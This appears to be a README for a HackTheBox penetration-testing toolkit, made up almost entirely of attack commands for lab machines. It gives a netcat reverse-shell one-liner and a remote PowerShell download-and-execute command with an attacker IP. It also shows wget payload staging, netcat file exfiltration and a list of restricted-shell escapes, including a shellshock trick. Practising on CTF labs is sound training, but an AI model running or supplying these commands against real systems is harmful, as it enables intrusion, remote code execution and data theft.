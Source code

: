 # Hackthebox tools
**shell.php and shell.ps1** : Use for reverse shell when uploaded to vuln machine
```shell
# Listen for reverse shell
nc -lnvp <port number> 
# Use netcat for reverse shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip address> <port> >/tmp/f
```
**les.sh, LinEnum.sh, lse.sh (Recommended)** : Use for detect vuln in Linux machine

**Sherlock.ps1** : Use for detect vuln in Windows machine

### How to upload files to vuln linux machine
In your machine type : 
```shell
python -m SimpleHTTPServer
```
In vuln machine type : 
```shell
wget (your ip address):8000/(file to upload)
```
Example : 
```shell
wget 10.10.14.62:8000/les.sh
```
### How to execute powershell script to vuln windows machine
In your machine type : 
```shell
python -m SimpleHTTPServer
```
In vuln machine type : 
```shell
# if in powershell
IEX(New-Object Net.WebClient).downloadString('http://<ip address>:8000/<file>')
# or if in cmd
powershell IEX(New-Object Net.WebClient).downloadString('http://<ip address>:8000/<file>')
```
  
Example : 
```shell
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.12.81:8000/shell.ps1')
```
### How to spawn bash shell
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
### How to download file using netcat
```shell
# In your machine
nc -lnvp 6666 > file
# In vuln machine
nc -w 3 <your ip> 6666 < file
```
### How to escape rbash
```shell
ftp > !/bin/sh or !/bin/bash
gdb > !/bin/sh or !/bin/bash
more/man/less > !/bin/sh or !/bin/bash
vim > !/bin/sh or !/bin/bash
vim > :python import os; os.system("/bin/bash")
scp > scp -S /path/yourscript x y:
awk > awk 'BEGIN {system("/bin/sh or /bin/bash")}'
find > find / -name test -exec /bin/sh or /bin/bash \;
except > except spawn sh then sh.
python > python -c 'import os; os.system("/bin/sh")'
php > php -a then exec("sh -i");
perl > perl -e 'exec "/bin/sh";'
lua > os.execute('/bin/sh').
ruby > exec "/bin/sh"
ssh > ssh username@IP - t "/bin/sh" or "/bin/bash"
ssh2 > ssh username@IP -t "bash --noprofile"
ssh3 > ssh username@IP -t "() { :; }; /bin/bash" (shellshock)
ssh4 > ssh -o ProxyCommand="sh -c /tmp/yourfile.sh" 127.0.0.1 (SUID)
git > git help status > you can run it then !/bin/bash
pico > pico -s "/bin/bash" then you can write /bin/bash and then CTRL + T
zip > zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
tar > tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash
```
### Useful website
[Pentest Monkey (Reverse shell script) ](http://pentestmonkey.net/)
[GTFObins (Privilege escalation & Escape Rbash)](https://gtfobins.github.io)
